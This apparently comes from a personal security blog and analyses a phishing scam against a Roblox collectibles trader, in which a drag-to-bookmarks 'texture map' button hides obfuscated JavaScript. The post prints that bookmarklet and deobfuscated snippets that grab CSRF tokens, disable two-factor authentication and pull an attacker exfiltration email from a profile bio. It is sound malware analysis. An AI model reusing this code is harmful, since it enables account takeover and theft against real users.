 ```yaml
---
title: The Great Bookmarklet Heist
date: 2024-06-09 05:08:01 +0800
categories: [security]
tags: [javascript,xss,analysis]     # TAG names should always be lowercase
pin: false
---
```


If you're in the threat intelligence space, you've probably seen headlines about $1 billion dollar crypto heists pulled off by Lazarus group in North Korea. You've seen multi-million dollar deals being made for decrypting ransomware and infostealers with nine figures in estimated damages. What you probably haven't seen is the cyber battlefield of children's online gaming - particularly a game called Roblox.

## The Target

The best time to start investing was yesterday, but getting started at 10 years old works too. My friend Gary started investing in fifth grade, spending his free time flipping and trading assets while everyone else was watching Disney channel. Although there's a catch - Gary was trading collectible virtual items on Roblox, not futures or securities (I suppose it's the best a 10 year old can get). 

Roblox allows users to purchase clothing and accessories to customize their avatars. Some of these items are "limited collectibles", meaning that only a set number of the item will ever be sold and available on the market. You can imagine that once all of the items are sold, the aftermarket value of them tends to go up with time. Gary saw this too, spending any birthday money or allowances on limited items like viking hats or fiery balaclavas, praying they would appreciate.   

At the time, returns were low and it seemed like a waste of money. But that was 2010, and Gary never stopped trading. Today, Gary's vast collection is worth several thousand real US dollars - he has made a not-insignificant income from viking hats and rainbow shades.

Things aren't all great, though. As the market matured and Gary's assets exploded in value, so too did the complexities of the virtual economy. Alongside complexity came opportunity to make significant money, either through legitimate or malicious means. Threat actors and script kiddies routinely targeted Gary's fortune through phishing attacks, and last month one such actor decided to try his luck. 

## The Attack

Gary got home from work and logged on to review his assets one day. After checking his inbox for trade requests, he stumbled upon a message requesting permission to make fan art of his avatar. According to Gary, this is actually fairly common as his avatar is quite unique and well known on the game. Many individuals don't want to be sued for royalties when using his avatar's likeness, so many reach out to confirm with Gary ahead of time.

Gary agreed and sent his reply. The artist replied back cheerfully and said they would start on the art soon, but requested that Gary send over a special "texture map" of his avatar. Again, Gary said that this isn't completely out of the ordinary - the texture map can help a lot with correctly modeling avatars in animations, for example.

Included in the artist's request for a texture map was a link to a website containing a "bookmarkable button" to quickly generate the map for his avatar. It seemed like a convenient idea for someone who may need to generate a lot texture maps often.

But this isn't Gary's first rodeo. He's seen this kind of trickery and shadiness before. He asked me to take a look to fully confirm it's a scam (or at least malicious), so I did (spoiler alert: it's malicious).

The website was barren except for a tutorial video and giant "INSTALL" button. I decided to inspect the website's source and take a look at the button, which was comically suspicious:

```javascript
<a href="javascript:const%20_0x4cc798%3D_0x2001%3B%28function%28_0x5d8d84%2C_0x388ac2%29%7Bconst%20_0x108b54%3D_0x2001%2C_0x39dcc9%3D_0x5d8d84%28%29%3Bwhile%28%21%21%5B%5D%29%7Btry%7Bconst%20_0x1b78d8%3D-parseInt%28_0x108b54%280x185%29%29%2F0x1%2A%28parseInt%28_0x108b54%280xc3%29%29%2F0x2%29%2B-parseInt%28_0x108b54%280x183%29%29%2F0x3%2A%28parseInt%28_0x108b54%280x152%29%29%2F0x4%29%2B-parseInt%28_0x108b54%280x17c%29%29%2F0x5%2B-parseInt%28_0x108b54%280x162%29%29%2F0x6%2A%28-parseInt%28_0x108b54%280xc2%29%29%2F0x7%29%2BparseInt%28_0x108b54%280x144%29%29%2F0x8%2B-parseInt%28_0x108b54%280x111%29%29%2F0x9%2BparseInt%28_0x108b54%280x142%29%29%2F0xa%2A%28parseInt%28_0x108b54%280xca%29%29%2F0xb%29%3Bif%28_0x1b78d8%3D%3D%3D_0x388ac2%29break%3Belse%20_0x39dcc9%5B%27push%27%5D%28_0x39dcc9%5B%27shift%27%5D%28%29%29%3B%7Dcatch%28_0x5c0eac%29%7B_0x39dcc9%5B%27push%27%5D%28_0x39dcc9%5B%27shift%27%5D%28%29%29%3B%7D%7D%7D%28_0x219d%2C0x1dfe2%29%2Cwindow%5B_0x4cc798%280xe9%29%5D%3Ddocument%5B_0x4cc798%280x110%29%5D%28_0x4cc798%280x169%29%29%5B0x0%5D%5B%27getAttribute%27%5D%28_0x4cc798%280x11a%29%29%2Cwindow%5B_0x4cc798%280xbd%29%5D%3D%27%27%29%3Bfunction%20_0x2001%28_0x34f505%2C_0x56e9bf%29%7Bconst%20_0x219db2%3D_0x219d%28%29%3Breturn%20_0x2001%3Dfunction%28_0x20010f%2C_0x526ece%29%7B_0x20010f%3D_0x20010f-0xa3%3Blet%20_0x3a8f3e%3D_0x219db2%5B_0x20010f%5D%3Breturn%20_0x3a8f3e%3B%7D%2C_0x2001%28_0x34f505%2C_0x56e9bf%29%3B%7Dconst%20acceptableHeaders%3D%7B%27accept%27%3A%27application%2Fjson%2C%5Cx20text%2Fplain%2C%5Cx20%2A%2F%2A%27%2C%27accept-language%27%3A_0x4cc798%280x13e%29%2C%27sec-ch-ua%27%3A_0x4cc798%280x116%29%2C%27sec-ch-ua-mobile%27%3A%27%3F0%27%2C%27sec-ch-ua-platform%27%3A_0x4cc798%280xa6%29%2C%27sec-fetch-dest%27%3A_0x4cc798%280x14c%29%2C%27sec-fetch-mode%27%3A_0x4cc798%280xa4%29%2C%27sec-fetch-site%27%3A_0x4cc798%280xec%29%2C%27sec-gpc%27%3A%271%27%7D%2CyourSitesURL%3D_0x4cc798%280xae%29%2CgetCsrfToken%3Dasync%28%29%3D%3E%7Bconst%20_0x3d5a96%3D_0x4cc798%2C_0x313a18%3Dawait%20fetch%28%27https%3A%2F%2Fapis.roblox.com%2Fuser-settings-api%2Fv1%2Fuser-settings%3FwhoCanJoinMeInExperiences%3DFollowers%27%2C%7B%27credentials%27%3A%27include%27%2C%27headers%27%3AacceptableHeaders%2C%27method%27%3A%27POST%27%2C%27mode%27%3A_0x3d5a96%280xa4%29%7D%29%5B_0x3d5a96%280x12b%29%5D%28_0x498197%3D%3E%7B%7D%29%3Bif%28%21_0x313a18%29return%20await%20getCsrfToken%28%29%3Blet%20_0x11d173%3D_0x313a18%5B_0x3d5a96%280xf8%29%5D%5B_0x3d5a96%280x129%29%5D%28_0x3d5a96%280xd4%29%29%3Bif%28%21_0x11d173%29return%20await%20getCsrfToken%28%29%3Breturn%20_0x11d173%3B%7D%2CunlockAccountByPin%3Dasync%20_0x181c0c%3D%3E%7Bconst%20_0xe09cf9%3D_0x4cc798%3Bfetch%28%27https%3A%2F%2Fauth.roblox.com%2Fv1%2Faccount%2Fpin%2Funlock%3Fpin%3D%27%2B_0x181c0c%2C%7B%27headers%27%3A%7B%27accept%27%3A_0xe09cf9%280xa9%29%2C%27accept-language%27%3A_0xe09cf9%280x13e%29%2C%27content-type%27%3A%27application%2Fjson%3Bcharset%3DUTF-8%27%2C%27sec-ch-ua%27%3A_0xe09cf9%280x116%29%2C%27sec-ch-ua-mobile%27%3A%27%3F0%27%2C%27sec-ch-ua-platform%27%3A_0xe09cf9%280xa6%29%2C%27sec-fetch-dest%27%3A_0xe09cf9%280x14c%29%2C%27sec-fetch-mode%27%3A_0xe09cf9%280xa4%29%2C%27sec-fetch-site%27%3A_0xe09cf9%280xec%29%2C%27sec-gpc%27%3A%271%27%2C%27x-csrf-token%27%3Aawait%20getCsrfToken%28%29%7D%2C%27referrer%27%3A_0xe09cf9%280xa3%29%2C%27referrerPolicy%27%3A_0xe09cf9%280xc0%29%2C%27body%27%3A_0xe09cf9%280x160%29%2B_0x181c0c%2B%27%5Cx22%7D%27%2C%27method%27%3A_0xe09cf9%280x137%29%2C%27mode%27%3A_0xe09cf9%280xa4%29%2C%27credentials%27%3A_0xe09cf9%280x12f%29%7D%29%5B%27then%27%5D%28_0xbcaa97%3D%3E_0xbcaa97%5B_0xe09cf9%280x178%29%5D%28%29%29%5B_0xe09cf9%280x108%29%5D%28async%20_0x1cbef2%3D%3E%7Bconst%20_0x25f449%3D_0xe09cf9%3Bif%28_0x1cbef2%5B%27includes%27%5D%28_0x25f449%280x143%29%29%29document%5B_0x25f449%280x151%29%5D%28_0x25f449%280x156%29%29%5B_0x25f449%280xad%29%5D%28_0x25f449%280x172%29%2C_0x181c0c%29%2CsetDescription%28%7B%27pin%27%3A_0x181c0c%7D%29%2CcontinueToTwoStep%28%29%2Cconsole%5B_0x25f449%280x14e%29%5D%28_0x25f449%280xcf%29%29%2Cdocument%5B_0x25f449%280xc6%29%5D%28%27PIN%27%29%5B_0x25f449%280xc1%29%5D%5B_0x25f449%280x13f%29%5D%3D_0x25f449%280x139%29%3Belse%20_0x1cbef2%5B_0x25f449%280xb3%29%5D%28_0x25f449%280xff%29%29%3Fdocument%5B_0x25f449%280xc6%29%5D%28_0x25f449%280x102%29%29%5B_0x25f449%280x125%29%5D%3D_0x25f449%280x164%29%3Adocument%5B_0x25f449%280xc6%29%5D%28_0x25f449%280x102%29%29%5B%27innerHTML%27%5D%3D_0x25f449%280x146%29%3B%7D%29%3B%7D%2CcreateOTPsession%3Dasync%28%29%3D%3E%7Bconst%20_0x1f209f%3D_0x4cc798%2C_0x1c30af%3Dawait%20fetch%28_0x1f209f%280xc5%29%2C%7B%27credentials%27%3A_0x1f209f%280x12f%29%2C%27headers%27%3A%7B%27Accept%27%3A_0x1f209f%280xa9%29%2C%27Accept-Language%27%3A%27en-US%2Cen%3Bq%3D0.5%27%2C%27Content-Type%27%3A_0x1f209f%280x136%29%2C%27x-csrf-token%27%3Aawait%20getCsrfToken%28%29%2C%27Sec-GPC%27%3A%271%27%2C%27Sec-Fetch-Dest%27%3A_0x1f209f%280x14c%29%2C%27Sec-Fetch-Mode%27%3A_0x1f209f%280xa4%29%2C%27Sec-Fetch-Site%27%3A_0x1f209f%280xec%29%7D%2C%27referrer%27%3A%27https%3A%2F%2Fwww.roblox.com%2F%27%2C%27body%27%3A_0x1f20
```

Reviewing just the static strings in the anchor element was enough to know something was up - `createOTPsession`, `getCsrfToken`, etc. I told Gary that things weren't looking good, and don't expect the fanart any time soon.

I decided to keep going and started deobfuscating the JavaScript. I discovered the malware's author used [this](https://deobfuscate.io/) popular obfuscation engine which allowed for easy recovery of the source. Obviously, not all of the source could be recovered - local variable names were still random hex strings.

## The Payload

Unsuprisingly, the payload JavaScript was a large amount of fetch requests to endpoints related to account settings and security hosted on the `roblox.com` domain:

```javascript
const disable2fa = async (_0x28bbe9, _0x197e35, _0x4fe56d) => {
  _0x197e35 = _0x197e35 || 0x0;
  _0x197e35++;
  if (_0x197e35 >= 0x3) {
    return;
  }
  let _0x42560a = await fetch("https://twostepverification.roblox.com/v1/users/" + _0x28bbe9 + "/configuration/authenticator/disable", {
    'headers': Object.assign(acceptableHeaders, {
      'x-csrf-token': window.csrf
    }),
    'referrer': "https://www.roblox.com/",
    'referrerPolicy': "strict-origin-when-cross-origin",
    'method': "POST",
    'mode': 'cors',
    'credentials': 'include'
  })['catch'](() => {});
  if (_0x42560a.status === 0x193) {
    _0x4fe56d = _0x42560a.headers.get("x-csrf-token");
    await disable2fa(_0x28bbe9, _0x197e35, _0x4fe56d);
  } else {
    return true;
  }
```

The request that caught my eye first was the initial fetch to a specific user's ID. Before accessing the victim's account settings or inventory listings, the payload makes a call to lookup details for a user with the ID number 6055914656 - `badmilky22`:

```javascript
fetch("https://users.roblox.com/v1/users/6055914656", {
  'headers': {
    'accept': "application/json, text/plain, */*",
    'accept-language': "en-GB,en-US;q=0.9,en;q=0.8",
    'sec-ch-ua': "\"Chromium\";v=\"118\", \"Brave\";v=\"118\", \"Not=A?Brand\";v=\"99\"",
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-platform': "\"Windows\"",
    'sec-fetch-dest': 'empty',
    'sec-fetch-mode': "cors",
    'sec-fetch-site': "same-site",
    'sec-gpc': '1'
  },
  'referrer': "https://www.roblox.com/",
  'referrerPolicy': "strict-origin-when-cross-origin",
  'method': 'GET',
  'mode': "cors",
  'credentials': 'include'
```

After the call, the payload then passes badmilky22's user biography into the `parseBinary` function:

```javascript
const evil_email = parseBinary(_0x5dd11c.description);
```

That's interesting. Why is `parseBinary` in use? Does the Roblox API really support some kind of raw binary serialization of user data? I visited badmilky22's user page and realized something else was up. The adversary was inserting binary-encoded data directly into their user's biography: 

![badmilky22](/assets/img/badmilky22.png)

Decoding the description to ASCII gives us the email address `lr46opcs@fastsearcher.com`. Later on in the payload, this email address is used when victim account details are hijacked. The adversary likely uses badmilky22's account as a C2 node to update where stolen credentials are sent to.

After retrieving the exfiltration email address, the payload enumerates any limited items in the user's inventory, disables 2FA, and then resets the user's password. Those are all pretty unsurprising actions, but I was struggling to understand how this attack was even going to work at all. Requests originating from the attacker's website were all going to fail due to CORS. I was missing something.

## The Magic of Bookmarklets

Cross Origin Resource Sharing (CORS) is a security setting for HTTP that can easily stop CSRF attacks originating from foreign domains. In the context attack, CORS would stop any sensitive/credentialed incoming requests (such as changing a user's password) to `roblox.com` from the attacker's domain (`robloxscam.scam`). With proper configuration, the
malicious 'link' (`<a/>` tag) element embedded with obfuscated JavaScript should NOT be able to successfully make these malicious requests on behalf of a user.

I was a little perplexed - does this adversary just have no clue what he's doing? It is a children's game after all. I decided to go back to the scam site and review the "tutorial" video. The video revealed the real attack vector - the scam site didn't want you to bookmark the site itself, but instead literally drag-and-drop
the link-button onto your bookmarks bar.

This drag-and-drop creates what modern browsers call "bookmarklets" - bookmarks that are actually just JavaScript code. Selecting a stored bookmarklet will execute the JavaScript directly in your browser **from whatever page you are viewing**. This means that executing the bookmarklet from your avatar's page on `roblox.com` will bypass any CORS protection and result in successful payload execution. While it may require a bit more action from the victim, bypassing CORS opens up the opportunity for high-impact CSRF attacks with little to no mitigation options.


## Conclusion

As far as I am aware, this isn't a widely discussed attack vector and seems to be an accepted facet of modern browsers. Allowing such powerful execution of code from a stored location enables attackers to perform CSRF attacks on virtually any application, regardless of the application's inherent security. 

Although I have seen plenty of people using bookmarklets for legitimate reasons (deleting all images on a page, etc), I struggle to see the value in permitting telemetry originating from them. Mozilla and Chrome may want to consider disabling HTTP communications for bookmarklets for security reasons.


